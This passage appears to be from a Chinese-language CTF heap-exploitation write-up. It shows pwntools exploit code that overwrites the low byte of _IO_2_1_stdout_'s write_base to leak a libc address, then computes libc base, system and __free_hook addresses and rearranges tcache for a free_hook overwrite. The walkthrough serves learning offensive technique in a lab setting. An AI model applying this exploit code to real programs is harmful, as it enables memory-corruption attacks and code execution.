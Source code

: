 1.  create(sh,0x38,'\n') #13  
2.  #假设chunk6的fd已经指向了_IO_2_1_stdout_，我们低位覆盖write_base指针  
3.  payload = '\x00' * 0x10 + p64(0xfbad1800) + p64(0) * 3 + **p8(0)  **
4.  create(sh,0x38,payload) #14  
5.  response = sh.recvuntil('done')  
6.  #没有成功覆盖，说明我们没有命中_IO_2_1_stdout_结构体，抛出异常，重试  
7.  **if** len(response) < 8:  
8.  **raise** Exception('retry')  
9.  #print response  
10.  #低位覆盖后，对应地址处的数据向后偏移8，正好是_IO_stdfile_2_lock的地址  
11.  _IO_stdfile_2_lock_addr = u64(response[8:16])  
12.  #计算出libc的地址  
13.  libc_base = _IO_stdfile_2_lock_addr - _IO_stdfile_2_lock  
14.  system_addr = libc_base + system_s  
15.  free_hook_addr = libc_base + free_s_hook  
16.  **print** 'libc_base=',hex(libc_base)  
17.  **print** 'system_addr=',hex(system_addr)  
18.  **print** 'free_hook_addr=',hex(free_hook_addr)  

如上，我们**p8(0)****将write_base****的低1****字节覆盖为了0****，经过IDA****调试，发现低位覆盖后，对应地址处的数据向后偏移8****，正好是_IO_stdfile_2_lock****的地址**，那么我们就能计算出libc的地址，以及其他一些需要用的函数的地址

接下来，bins变成这样了

![](img/3a097e3ea3fcf955b6c0a2ad80e81133.png)

现在，我们只剩下3个chunk可以申请，因此再申请就超过了18个了，然而，我们还需要攻击free_hook，当前unsorted bin的头为0x563a0b8d84b0，**我们还是想用同样的方法，来修改****tcache bin****里头结点的fd**，但是0x60 tcache bin头结点是0x563a0b8d8440，比unsorted bin的头结点地址低，覆盖不到。但是，**还记得****chunk6****后面的那个chunk7****吗，它的地址正好只比当前unsorted bin****的头节点地址高一点,****但是chunk7****当前不在tcache****中，因为之前被申请出去了，那么我们再重新把chunk7****放回来**

1.  #让chunk8重新回到tcache中，作为头0x80 tcache bin的头  
2.  delete(sh,10)  

然后，我们再看看bins(**注意，我们每次调试都重新运行了重新，所以地址会有所变化，但是他们相对地址是不变的**)

![](img/574752941c6aef6bbf71f51278fa04a7.png)
